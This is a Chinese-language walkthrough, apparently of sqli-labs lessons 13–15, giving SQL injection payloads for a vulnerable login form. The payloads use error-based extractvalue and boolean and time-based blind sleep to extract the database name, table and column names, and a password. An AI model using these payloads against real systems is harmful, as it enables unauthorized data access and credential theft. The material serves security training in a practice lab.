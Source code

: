 1.首先尝试单引号注入，根据报错信息得知闭合方式是')

2.`uname=admin') and extractvalue(1,concat(0x7e,(select database())))  and ('`

其余的过程与上一关基本相同

***
# less 14(POST单引号变形双注入)

*  原理

依旧是根据报错爆名

*  步骤

1.还是单引号找注入点，发现没有回显，猜测单引号被双引号所包裹，所以尝试双引号显示了错误信息。

2.`uname=admin" and extractvalue(1,concat(0x7e,(select database()))) and "  &passwd=admin&submit=Submit`

可以发现凡是用到报错函数的句式都长得非常相似，其整体思路也是相同的

具体爆库名表命列名payload学习见上，唯一需要注意的就是闭合方式

***


# less 15(基于bool型/时间延迟单引号POST型盲注)

*  原理

无论怎么输入都没有回显的布尔型，通过时间延迟判断是否执行语句，并且如果是手工注入的话所有的库名表名列名都要一个一个猜。前后顺序为:数据库名长度->数据库名猜测->按条依次猜测表名->对表名中的值进行猜测

*  步骤

1.仍旧是注入点测试

`uname=admin' and 1=1 --+ 登录成功`

`uname=admin' and 1=2 --+ 登录失败`

以此判断此处存在可以语句执行的漏洞

2.开始对各项值进行猜测

`uname=admin' and if(length(database())=8,sleep(5),1)--+&passwd=admin&submit=Submit`

 

`uname=admin' and if(left(database(),1)='s',sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+&passwd=admin&submit=Submit`

`uname=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 